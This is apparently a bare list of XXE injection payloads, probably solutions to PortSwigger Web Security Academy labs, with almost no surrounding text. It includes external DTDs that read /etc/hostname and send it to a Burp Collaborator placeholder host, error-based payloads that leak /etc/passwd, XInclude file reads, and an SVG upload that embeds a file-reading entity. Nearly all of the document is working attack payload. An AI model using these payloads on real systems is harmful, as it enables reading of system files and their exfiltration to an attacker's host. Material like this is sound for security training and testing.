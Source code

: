 <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-acb71f8a1f9d338ac05d9ab201550061.web-security-academy.net/exploit"> %xxe;]>

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
&xxe;

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-acb71f8a1f9d338ac05d9ab201550061.web-security-academy.net/exploit"> %xxe;]>

<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>


<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>


<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
